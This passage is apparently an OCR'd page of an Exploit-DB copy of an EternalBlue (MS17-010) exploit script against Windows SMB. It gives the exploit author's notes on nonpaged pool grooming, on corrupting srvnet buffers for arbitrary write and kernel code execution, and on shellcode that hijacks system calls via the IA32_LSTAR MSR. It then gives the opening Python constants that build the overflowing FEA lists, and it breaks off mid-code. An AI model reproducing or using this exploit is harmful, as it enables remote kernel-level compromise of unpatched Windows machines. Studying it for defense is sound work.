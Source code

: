 ```
- The exploit trick is same as NSA exploit
- The overflow is happened on nonpaged pool so we need to massage target nonpaged pool.
- If exploit failed but target does not crash, try increasing 'numGroomConn' value (at least 5)
- See the code and comment for exploit detail.


srvnet buffer info:
- srvnet buffer contains a pointer to another struct and MDL about received buffer
  - Controlling MDL values results in arbitrary write
  - Controlling pointer to fake struct results in code execution because there is pointer to function
- A srvnet buffer is created after target receiving first 4 bytes
  - First 4 bytes contains length of SMB message
  - The possible srvnet buffer size is "..., 0x9000, 0x11000, 0x21000, ...". srvnet.sys will select the size that big enough.
- After receiving whole SMB message or connection lost, server call SrvNetWskReceiveComplete() to handle SMB message
- SrvNetWskReceiveComplete() check and set some value then pass SMB message to SrvNetCommonReceiveHandler()
- SrvNetCommonReceiveHandler() passes SMB message to SMB handler
  - If a pointer in srvnet buffer is modified to fake struct, we can make SrvNetCommonReceiveHandler() call our shellcode
  - If SrvNetCommonReceiveHandler() call our shellcode, no SMB handler is called
  - Normally, SMB handler free the srvnet buffer when done but our shellcode dose not. So memory leak happen.
  - Memory leak is ok to be ignored


Shellcode note:
- Shellcode is executed in kernel mode (ring 0) and IRQL is DISPATCH_LEVEL
- Hijacking system call is common method for getting code execution in Process context (IRQL is PASSIVE_LEVEL)
  - On Windows x64, System call target address can be modified by writing to IA32_LSTAR MSR (0xc0000082)
  - IA32_LSTAR MSR scope is core/thread/unique depended on CPU model
  - On idle target with multiple core processors, the hijacked system call might take a while (> 5 minutes) to 
      get call because it is called on other processors
  - Shellcode should be aware of double overwriting system call target address when using hijacking system call method
- Then, using APC in Process context to get code execution in userland (ring 3)

#E-DB Note: https://gist.github.com/worawit/bd04bad3cd231474763b873df081c09a
#E-DB Note: https://github.com/worawit/MS17-010/blob/eafb47d715fe38045c9ea6dc4cb75ca0ef5487ce/eternalblue_exploit7.py
'''

# Note: see how to craft FEALIST in eternalblue_poc.py

# wanted overflown buffer size (this exploit support only 0x10000 and 0x11000)
# the size 0x10000 is easier to debug when setting breakpoint in SrvOs2FeaToNt() because it is called only 2 time
# the size 0x11000 is used in nsa exploit. this size is more reliable.
NTFEA_SIZE = 0x11000
# the NTFEA_SIZE above is page size. We need to use most of last page preventing any data at the end of last page

ntfea10000 = pack('<BBH', 0, 0, 0xffdd) + 'A'*0xffde

ntfea11000 = (pack('<BBH', 0, 0, 0) + '\x00')*600  # with these fea, ntfea size is 0x1c20
ntfea11000 += pack('<BBH', 0, 0, 0xf3bd) + 'A'*0xf3be  # 0x10fe8 - 0x1c20 - 0xc = 0xf3bc

ntfea1f000 = (pack('<BBH', 0, 0, 0) + '\x00')*0x2494  # with these fea, ntfea size is 0x1b6f0
```